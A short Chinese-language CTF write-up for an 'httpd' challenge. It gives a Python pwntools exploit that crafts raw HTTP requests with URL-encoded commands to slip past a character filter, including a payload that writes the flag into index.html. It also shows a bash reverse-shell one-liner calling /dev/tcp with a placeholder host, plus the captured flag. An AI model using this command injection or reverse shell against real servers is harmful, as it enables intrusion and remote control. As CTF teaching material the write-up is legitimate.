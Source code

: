 ```yaml
---
data: 2024-09-10 10:55
challenge: httpd
tags:
  - misc
  - URLencode
---
```


这道题非常抽象，我的做法是 `%xx` url 编码绕过检查：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
context.log_level = "debug"


def get_payload(command):
    payload = b"get /" + command + b" HTTP/1.0\r\n"
    payload += b"Host: 127.0.0.1\r\n"
    payload += f"Content-Length: 100\r\n".encode()
    payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
    payload += b"Connection: close\r\n"
    payload += b"\r\n"
    return payload


# payload = get_payload(b"cat%20/fla*>/home/ctf/html/index.html")
payload = get_payload(b"index.html")
s(payload)

ia()

# 73037178244216013737456202378991
```

还有一种做法是远程开反弹 shell 连接到服务器，首先指定 `'GET /"s"h HTTP/1.0\r\n'` 起一个 shell，再传反弹 shell 的 payload：

```bash
'bash -c "bash -i >& /dev/tcp/xx.xx.xx.xx/xxxxx 0>&1"'
```

总而言之这道题的难点看起来就是绕过字符过滤。
